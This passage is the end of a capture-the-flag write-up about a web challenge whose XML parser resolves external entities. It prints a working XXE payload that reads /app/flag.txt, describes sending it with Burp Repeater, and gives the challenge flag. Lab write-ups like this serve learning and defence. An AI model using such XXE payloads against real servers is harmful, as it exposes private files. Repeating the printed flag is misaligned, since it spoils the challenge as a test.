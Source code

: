 ```python
    return render_template('index.html')
```

The code is vulnerable to XXE (XML External Entity) attacks, as XMLParser is set to resolve entities. This allows attackers to send malicious XML payloads with the `!ENTITY` directive to read files from the server. XXE can be used to access sensitive data, execute remote requests, or perform denial-of-service attacks.

I found a common payload and modified it to read the flag file.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "file:///app/flag.txt">
]>
<root>
  <feedback>&xxe;</feedback>
</root>
```

We can't send the payload directly through the UI as it wraps the input we give in `${feedback}` so we have to use burp suite or similar tools which can send request directly to the server.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<root>
    <feedback>${feedback}</feedback>
</root>
```

I used burp repeater to send the payload.

![xxe](/assets/posts/DownUnder/xxe.png)

and there we have the flag!

> FLAG : `DUCTF{emU_say$_he!!0_h0!@_ci@0}`

---

## Conclusion

Thank you for reading my first CTF write-up! I hope you found it informative and enjoyable. Your feedback is greatly appreciated, as it will help me improve future write-ups. Happy hacking!
